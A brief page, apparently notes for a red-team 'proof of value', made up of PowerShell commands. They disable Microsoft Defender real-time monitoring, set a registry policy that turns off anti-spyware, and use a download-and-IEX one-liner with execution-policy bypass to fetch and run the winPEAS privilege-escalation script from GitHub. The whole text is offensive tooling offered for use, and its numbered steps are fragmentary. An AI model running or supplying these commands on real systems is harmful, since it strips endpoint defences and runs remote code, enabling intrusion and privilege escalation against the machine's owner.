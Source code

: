 # Kακός
Proof of Value

Disable Microsoft Defender

Set-MpPreference -DisableRealtimeMonitoring $true
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force



1. Executing that script immediately.
2. Downloading the winPEAS.ps1 script from its GitHub repository.
   
powershell -Exec ByPass -NoProfile -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') | IEX"
